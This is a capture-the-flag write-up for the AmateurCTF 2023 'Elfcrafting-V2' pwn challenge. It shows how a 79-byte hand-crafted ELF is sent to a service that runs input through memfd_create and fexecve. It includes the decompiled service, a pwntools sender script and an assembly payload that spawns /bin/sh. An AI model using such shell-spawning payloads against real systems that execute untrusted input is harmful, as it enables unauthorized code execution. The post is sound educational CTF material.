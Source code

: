 ```yaml
---
title: AmateurCTF '23 - Pwn - Elfcrafting-V2
date: '2023-07-18'
tags:
  [
    'ctf',
    'pwn',
    'amateurctf',
    'amateurctf23',
    'writeup',
    'elf',
    'elfcrafting-v2',
    'memfd_create',
    'fexecve',
    'shellcode',
    'asm',
  ]
draft: false
summary: Crafting a custom ELF binary in assembly to execute /bin/sh and inject that inside the file descriptor using memfd_create and fexecve.
---
```


## Challenge Description

The smallest possible 64 bit ELF is 80 bytes. Can you golf it down to 79 bytes?

Author: unvariant

Connection info: `nc amt.rs 31179`

## Solution

We were provided with a binary and a libc file. Let's first analyze the binary using `checksec` and `file`:

![chal](/static/writeups/amateurctf2023/pwn/ec2-0.png)

Now, let's analyze this binary in ghidra and find all the functions

![chal](/static/writeups/amateurctf2023/pwn/ec1-1.png)

Similar to the previous binary, we have the same function. Let's analyze this main

```c:main
int main(int param_1,char **param_2,char **param_3) {
  int iVar1;
  int iVar2;
  ulong uVar3;
  long in_FS_OFFSET;
  undefined4 elf;
  undefined buffer [88];
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("I\'m sure you all enjoy doing shellcode golf problems.");
  puts("But have you ever tried ELF golfing?");
  puts("Have fun!");
  elf = 0x464c457f;
  iVar1 = memfd_create("golf",0);
  if (iVar1 < 0) {
    perror("failed to execute fd = memfd_create(\"golf\", 0)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  uVar3 = read(0,buffer,79);
  if ((int)uVar3 < 0) {
    perror("failed to execute ok = read(0, buffer, 79)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("read %d bytes from stdin\n",uVar3 & 0xffffffff);
  iVar2 = memcmp(&elf,buffer,4);
  if (iVar2 != 0) {
    puts("not an ELF file :/");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  uVar3 = write(iVar1,buffer,(long)(int)uVar3);
  if ((int)uVar3 < 0) {
    perror("failed to execute ok = write(fd, buffer, ok)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("wrote %d bytes to file\n",uVar3 & 0xffffffff);
  iVar1 = fexecve(iVar1,param_2,param_3);
  if (iVar1 < 0) {
    perror("failed to execute fexecve(fd, argv, envp)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Well, similar to the [previous](/writeups/amateurctf2023/pwn/elf-crafting-v1) challenge, we can see that the binary is reading 79 bytes from stdin and then writing it to a file descriptor. After that, it's executing the file descriptor using `fexecve`. But, the only new thing is that the code is checking that the first `4 bytes` must be `0x464c457f` which is the magic number for ELF binaries. So, we can't just send a shellcode and execute it. We have to send a valid ELF binary. Let's try to craft a valid ELF binary using assembly.

I did study about `binary-golfing` once. I'll add few [references](#references) at the end of this writeup. So, one of the most valuable resource is [MuppetLabs](https://www.muppetlabs.com/~breadbox/software/tiny/) which has a lot of tiny binaries. I'll be using the `hello world` binary from there. The asm is:

```asm
BITS 32

		org	0x05430000

		db	0x7F, "ELF"
		dd	1
		dd	0
		dd	$$
		dw	2
		dw	3
		dd	_start
		dw	_start - $$
_start:		inc	ebx			; 1 = stdout file descriptor
		add	eax, strict dword 4	; 4 = write system call number
		mov	ecx, msg		; Point ecx at string
		mov	dl, 13			; Set edx to string length
		int	0x80			; eax = write(ebx, ecx, edx)
		and	eax, 0x10020		; al = 0 if no error occurred
		xchg	eax, ebx		; 1 = exit system call number
		int	0x80			; exit(ebx)
msg:		db	'hello, world', 10
```

We'll be compiling this binary using `nasm`

```bash
nasm -f bin -o hello hello.asm && chmod +x hello
```

But, there is a check, that the final binary _must be less than "79 bytes"_. Fortunately, this one was. Now, let's write a simple python pwntools script that will send this binary to the program/server

```python
from pwn import *

io = process('./chal')
io.recv()
with open('./hello', 'rb') as f:
	buf = f.read()
io.sendline(buf)
io.interactive()
```

![chal](/static/writeups/amateurctf2023/pwn/ec2-1.png)

Well, this worked. It printed out `hello world`. Now, all we need to do, is write an assembly code, that will either give us a shell, or a simple `cat flag.txt`. So, I fumbled around, tried different codes online, even the `echo` from [MuppetLabs](https://www.muppetlabs.com/~breadbox/software/tiny), but it didn't work. Then, one of my [teammates](https://mikivirus0.github.io/), with the help of some online resources, crafted the following assembly code that spawns `/bin/sh`

```asm
 BITS 32
      org     0x00010000
      db      0x7F, "ELF"
      dd      1
      dd      0
      dd      $$
      dw      2
      dw      3
      dd      _start
      dd      _start
      dd      4
  _cont:
      mov     dl, 0xff
      int     0x80
      mov     ebx, eax
      mov     al, 3
      jmp _end
      dw      0x20
      dw      1
  _start:
      mov     al, 11
      mov     ebx, string_start
      int 0x80
  _end:
    mov ecx, esp
    int 0x80
    xor ebx,ebx
    mov al, 4
    int 0x80
  string_start:
      db "/bin/sh"
  string_len equ $ - string_start
  filesize      equ     $ - $$
```

Compiling this binary, running it, and checking it's size

![chal](/static/writeups/amateurctf2023/pwn/ec2-2.png)

Well, the size is less than 79 bytes. So, running this against the remote server

![chal](/static/writeups/amateurctf2023/pwn/ec2-3.png)

Flag: `amateursCTF{d1d_i_f0rg3t_t0_p4tch_32b1t_b1naries_t00!!!}`

This challenge was pretty good and took me and my team quite a long time to solve than it actually should have. But, hey, we learned a lot of new things. So, that's a win-win situation.

## References

[Golf-Club](https://github.com/netspooky/golfclub/tree/master)

[Binary-Golfing](https://0xninja.fr/binary-golf/)

[MuppetLabs](https://www.muppetlabs.com/~breadbox/software/tiny)

[Analyzing-ELF-Binaries](https://binaryresearch.github.io/2019/09/17/Analyzing-ELF-Binaries-with-Malformed-Headers-Part-1-Emulating-Tiny-Programs.html)

[ELF-Binary-Mangaling](https://netspooky.medium.com/elf-binary-mangling-pt-2-golfin-7e5c82bb482c)
